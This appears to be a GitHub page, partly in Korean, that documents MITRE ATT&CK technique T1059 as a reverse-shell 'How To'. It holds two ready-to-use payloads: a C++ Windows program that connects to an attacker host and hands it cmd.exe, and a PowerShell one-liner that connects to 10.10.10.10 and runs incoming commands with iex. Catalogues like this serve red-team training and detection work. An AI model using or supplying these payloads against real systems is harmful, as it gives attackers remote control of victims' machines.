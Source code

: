 # T1059-Command-and-Scripting-Interpreter(Reverse Shell)

Status: Execution

---

# Summary

- MITRE ATT&CK : Enterprise - Execution - Command and Scripting Interpreter
- Require Privilege : Any
- Running Privilege : Any
- Description : 아웃바운드 방화벽 정책이 약하게 설정 된 것을 이용하여 쉘을 탈취

---

# How To

## C++

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

#define _WINSOCK_DEPRECATED_NO_WARNINGS

#include <WinSock2.h>
#include <windows.h>

//#pragma comment(linker, "/subsystem:windows /entry:mainCRTStartup")
#pragma comment(lib, "ws2_32")

int main(int argc, char *argv[])
{
	WSADATA wsaData;
	SOCKET s1;
	struct sockaddr_in hax;
	STARTUPINFO si;
	PROCESS_INFORMATION pi;

	WSAStartup(MAKEWORD(2, 2), &wsaData);
	s1 = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

	hax.sin_family = AF_INET;
	hax.sin_port = htons(8080);
	hax.sin_addr.s_addr = inet_addr("attacker[.]cnc[.]com");

	WSAConnect(s1, (SOCKADDR *)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

	memset(&si, 0, sizeof(si));
	si.cb = sizeof(si);
	si.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
	si.hStdInput = (HANDLE)s1;
	si.hStdOutput = (HANDLE)s1;
	si.hStdError = (HANDLE)s1;

	TCHAR cmd[256] = L"cmd.exe";
	CreateProcess(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);

	return 0;
}
```

## Powershell

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```



(계속 추가 예정)